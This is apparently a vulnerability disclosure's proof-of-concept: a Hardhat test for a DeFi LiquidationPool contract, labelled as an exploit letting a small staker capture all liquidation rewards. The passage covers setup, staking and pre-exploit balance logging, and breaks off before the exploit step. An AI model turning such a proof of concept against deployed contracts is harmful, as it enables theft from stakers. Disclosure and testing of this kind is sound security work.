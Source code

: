 ## Proof Of Concept
Here is a Hardhat test you can add to `test/liquidationPoolManager.js` in `describe('LiquidationPoolManager'...` to demonstrate the exploit:
```js
describe('EXPLOIT', async () => {
    it('Exploits Liquidation Pool and get all the rewards', async () => {
      const attacker = holder3;
      const ethCollateral = ethers.utils.parseEther('0.5');
      const wbtcCollateral = BigNumber.from(1_000_000);
      const usdcCollateral = BigNumber.from(500_000_000);
      // create some funds to be "liquidated"
      await holder5.sendTransaction({to: SmartVaultManager.address, value: ethCollateral});
      await WBTC.mint(SmartVaultManager.address, wbtcCollateral);
      await USDC.mint(SmartVaultManager.address, usdcCollateral);

      // holder1 stakes some funds
      const tstStake1 = ethers.utils.parseEther('1000');
      const eurosStake1 = ethers.utils.parseEther('2000');
      await TST.mint(holder1.address, tstStake1);
      await EUROs.mint(holder1.address, eurosStake1);
      await TST.connect(holder1).approve(LiquidationPool.address, tstStake1);
      await EUROs.connect(holder1).approve(LiquidationPool.address, eurosStake1);
      await LiquidationPool.connect(holder1).increasePosition(tstStake1, eurosStake1)

      // holder2 stakes some funds
      const tstStake2 = ethers.utils.parseEther('4000');
      const eurosStake2 = ethers.utils.parseEther('3000');
      await TST.mint(holder2.address, tstStake2);
      await EUROs.mint(holder2.address, eurosStake2);
      await TST.connect(holder2).approve(LiquidationPool.address, tstStake2);
      await EUROs.connect(holder2).approve(LiquidationPool.address, eurosStake2);
      await LiquidationPool.connect(holder2).increasePosition(tstStake2, eurosStake2);

      // attacker stakes a tiny bit of funds
      const tstStake3 = ethers.utils.parseEther('1');
      const eurosStake3 = ethers.utils.parseEther('1');
      await TST.mint(attacker.address, tstStake3);
      await EUROs.mint(attacker.address, eurosStake3);
      await TST.connect(attacker).approve(LiquidationPool.address, tstStake3);
      await EUROs.connect(attacker).approve(LiquidationPool.address, eurosStake3);
      await LiquidationPool.connect(attacker).increasePosition(tstStake3, eurosStake3);

      await fastForward(DAY);
      
      // Some liquidation happens
      await expect(LiquidationPoolManager.runLiquidation(TOKEN_ID)).not.to.be.reverted;

      // staker 1 has 1000 stake value
      // staker 2 has 3000 stake value
      // attacker has 1 stake value
      // ~25% should go to staker 1, ~75% to staker 2, ~0% should go to attacker
      
      // EPLOIT STARTS HERE
      console.log("[Before exploit] Attacker balance:");                           // [Before exploit] Attacker balance:
      console.log("ETH = %s", await ethers.provider.getBalance(attacker.address)); // ETH = 9999999683015393765405
      console.log("WBTC = %s", await WBTC.balanceOf(attacker.address));            // WBTC = 0
      console.log("USDC = %s", await USDC.balanceOf(attacker.address));            // USDC = 0
      console.log("[Before exploit] LiquidationPool balance:");                           // [Before exploit] LiquidationPool balance:
      console.log("ETH = %s", await ethers.provider.getBalance(LiquidationPool.address)); // ETH = 499999999999999999
```